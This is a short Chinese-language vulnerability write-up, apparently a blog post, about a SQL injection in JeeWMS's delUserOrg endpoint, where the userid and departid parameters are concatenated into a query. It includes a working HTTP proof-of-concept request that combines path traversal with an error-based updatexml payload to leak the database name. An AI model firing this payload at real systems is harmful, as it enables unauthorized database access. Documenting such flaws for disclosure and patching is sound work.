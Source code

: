 `userid`和`departid`用户可控且为`string`类型，直接拼接至`sql`语句中造成`SQL`注入

![image-20250724172245956](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250724172245956.png?imageSlim)

漏洞`POC`

```http
GET /jeewms/wmsApiController.do/../departController.do?delUserOrg&userid=10'/**/and/**/updatexml(1,concat(0x7e,database(),0x7e),1)/**/and/**/'&departid=10 HTTP/1.1
Host: 192.168.21.128:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

![image-20250724172404583](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250724172404583.png?imageSlim)

